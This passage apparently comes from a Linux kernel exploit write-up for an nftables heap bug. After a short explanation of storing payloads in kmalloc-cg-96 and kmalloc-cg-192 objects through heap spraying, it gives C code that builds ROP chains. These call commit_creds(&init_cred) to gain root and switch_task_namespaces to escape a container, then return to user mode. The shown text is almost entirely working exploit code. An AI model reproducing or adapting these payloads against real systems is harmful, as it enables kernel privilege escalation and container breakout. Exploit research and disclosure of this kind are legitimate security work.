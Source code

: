 ```c
}
```

### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it. The ROP payload of `kmalloc-cg-192` is stored in `nft_rule->data` when the rule is created during the heap spraying. The ROP payload of `kmalloc-cg-96` is stored by spraying `nft_table->udata` after freeing the rule used in the heap spray.

```c
void make_payload2(uint64_t* data){
    int i = 0;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = 0;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}

void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;
    data[i++] = kbase + pop_r12_pop_r13_ret;
    data[i++] = 0xffff | ((unsigned long) 0x8 << 44);
    data[i++] = heap_addr2;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 0;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}
```